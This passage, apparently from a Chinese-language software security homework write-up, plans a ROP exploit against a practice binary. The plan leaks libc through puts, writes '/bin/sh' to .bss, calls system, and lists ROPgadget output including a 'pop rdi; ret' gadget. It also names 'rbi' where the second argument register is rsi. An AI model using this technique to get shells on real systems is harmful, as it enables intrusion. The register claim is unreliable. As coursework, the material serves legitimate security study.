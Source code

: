 即可以读入一段任意长度的数据，直接构造rop链进行利用。程序中没有直接可以用来拿shell的函数，需要在libc中找，考虑先利用puts获取libc的基址，再向bss段中写入`/bin/sh\x00`，然后以此为参数调用system函数。

由于我们需要利用到第一次地址泄露的结果才能知道system函数的地址，故在泄露地址后先返回到程序起始地址重新执行，这样在libc地址不变的情况下多了一次溢出的机会。

在64位程序中，前三个参数分别存放在`rdi`，`rbi`，`rdx`这几个寄存器当中，由于我们调用的这些函数均只用到了一个参数，故我们只需要一个`pop rdi; ret`的gadget，利用`ROPgadget`在文件中查找得其地址为`0x401283`。

```
~/.../SoftwareSecurity/hw1 >>> ROPgadget --binary pwn1 
Gadgets information
============================================================
0x00000000004010bd : add ah, dh ; nop ; endbr64 ; ret
0x00000000004010eb : add bh, bh ; loopne 0x401155 ; nop ; ret
0x000000000040128c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040120f : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x0000000000401210 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040128e : add byte ptr [rax], al ; endbr64 ; ret
0x00000000004010bc : add byte ptr [rax], al ; hlt ; nop ; endbr64 ; ret
0x0000000000401211 : add byte ptr [rax], al ; leave ; ret
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401212 : add cl, cl ; ret
0x00000000004010ea : add dil, dil ; loopne 0x401155 ; nop ; ret
0x0000000000401038 : add dl, dh ; jmp 0x401020
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004011d7 : call qword ptr [rax + 0xff3c35d]
0x000000000040103e : call qword ptr [rax - 0x5e1f00d]
0x0000000000401014 : call rax
0x0000000000401173 : cli ; jmp 0x401100
0x00000000004010c3 : cli ; ret
0x000000000040129b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x0000000000401170 : endbr64 ; jmp 0x401100
0x00000000004010c0 : endbr64 ; ret
0x000000000040126c : fisttp word ptr [rax - 0x7d] ; ret
0x00000000004010be : hlt ; nop ; endbr64 ; ret
0x0000000000401012 : je 0x401016 ; call rax
0x00000000004010e5 : je 0x4010f0 ; mov edi, 0x404040 ; jmp rax
0x0000000000401127 : je 0x401130 ; mov edi, 0x404040 ; jmp rax
0x000000000040103a : jmp 0x401020
0x0000000000401174 : jmp 0x401100
0x000000000040100b : jmp 0x4840103f
0x00000000004010ec : jmp rax
0x0000000000401213 : leave ; ret
0x00000000004010ed : loopne 0x401155 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x000000000040120e : mov eax, 0 ; leave ; ret
0x00000000004010e7 : mov edi, 0x404040 ; jmp rax
0x00000000004010bf : nop ; endbr64 ; ret
0x00000000004011d8 : nop ; pop rbp ; ret
0x00000000004010ef : nop ; ret
0x000000000040116c : nop dword ptr [rax] ; endbr64 ; jmp 0x401100
0x00000000004010e6 : or dword ptr [rdi + 0x404040], edi ; jmp rax
0x0000000000401158 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040127c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040127e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401280 : pop r14 ; pop r15 ; ret
0x0000000000401282 : pop r15 ; ret
0x000000000040127b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```